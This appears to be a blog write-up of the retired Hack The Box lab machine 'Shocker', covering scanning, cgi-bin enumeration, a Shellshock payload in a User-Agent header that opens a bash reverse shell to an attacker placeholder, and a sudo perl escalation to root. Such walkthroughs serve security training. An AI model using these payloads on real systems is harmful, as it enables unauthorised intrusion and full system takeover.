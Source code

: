```yaml
---
layout: post
title: HacktheBox - Shocker
toc: true
subtitle: Retired Machine
comments: false
---
```


## Shocker ![propic](/pictures/shocker/shocker.png)

Start off with a network scan:
```
nmap -sV -sC -Pn -oA nmap/shocker 10.10.10.56
```
![nmap](/pictures/shocker/nmap.png)

I notice that port 80 & 2222 are open. First, I navigate to the webpage and only see a png file. Knowing that the machine is called shocker, I assume this is vulnerable to shellshock.

To confirm, I run the shellshock nmap script to validate its vulnerability to the attack.

![nmap2](/pictures/shocker/nmap-shocker.png)

It clearly indicates the machine is vulnerable. For more enumeration, I will use dirbuster to look for any hiddle directories. 

Unfortunately there are no initial directories found, so I leverage dirbuster with the -f flag to find directories with the ending forward slash. The directory cgi-bin was found during the second directory search. 

With this information, I google common script extensions in cgi-bin and find .sh, .cgi, & .pl. Using these script extensions, I run the following command in feroxbuster against the cgi-bin directory:

```
feroxbuster -u http://10.10.10.56/cgi-bin/ -x sh,cgi,pl
```
![ferox](/pictures/shocker/ferox.png)

The user.sh file was found, and shows a basic uptime test script. However, by leveraging burp, I can now use the shellshock vulnerability against the GET cgi-bin/user.sh file to run bashcommands. This means that I can create a bash reverse shell with this string inside the user agent:

```
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/<attacker_ip>/4443 0>&1
```

![burp](/pictures/shocker/burp.png)

With the listener setup on port 4443 on my attacker host, I receive a bash shell under Shelly. This allows me to find the user.txt file under /home/shelly.
![user](/pictures/shocker/user.png)

The first thing I check to escalate privileges is the current sudo permissions. Here, I find that shelly can run sudo privileges on the perl binary in /bin/perl. 

Obtaining root from here is easy as I google GTFOBins and look for sudo perl escalations.

```
sudo perl -e 'exec "/bin/sh";'
```
Finally, I have obtained root and found the root flag under /root/root.txt.
![root](/pictures/shocker/root.png)
